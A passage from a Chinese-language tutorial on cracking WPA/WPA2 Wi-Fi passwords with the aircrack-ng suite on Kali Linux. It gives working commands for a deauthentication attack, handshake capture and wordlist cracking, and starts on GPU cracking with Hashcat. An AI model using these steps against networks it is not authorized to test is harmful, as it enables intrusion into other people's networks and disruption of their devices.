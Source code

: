   aireplay-ng的生效前提是，wifi网络中至少有一个连接的设备。从上图可以看到哪些设备连接到了wifi，STATION就是连接设备的MAC地址，记住一个。
  
  [aircrack-ng官网](https://www.aircrack-ng.org/)
  
  打开新终端执行：
  
  ~~~shell
  aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
  ~~~
  
  参数解释：
  
  -0表示发起deauthentication攻击
  
  -a指定无线路由器BSSID
  
  -c指定强制断开的设备
  
  ![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G0161116423V.JPG)
  
  如果成功：
  
  ![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016111A4343.JPG)
  
  按Ctrl-C结束抓包。
  
  我们已经得到了想要的握手包了，可以结束无线网卡的监控模式了：
  
  ~~~shell
  airmon-ng stop wlan0mon
  ~~~
  
  ![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016111F5355.JPG)
  
  **开始破解密码**
  
  ~~~shell
  aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
  ~~~
  
  参数解释：
  
  -a2代表WPA的握手包
  
  -b指定要破解的wifi BSSID。
  
  -w指定字典文件
  
  最后是抓取的包
  
  ![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016111Ga23.JPG)
  
  可选）使用显卡的运算能力
  
  如果你有一个强大的GPU，为什么不使用GPU跑字典呢？
  
  Hashcat可以借助GPU的运算力破解各种不同算法的hash值。
  
  下载时要注意选择正确的显卡类型（AMD、NVidia）。Kali Linux自带这个工具。
  
  在破解cap文件之前，要把它转换为hccap文件：
  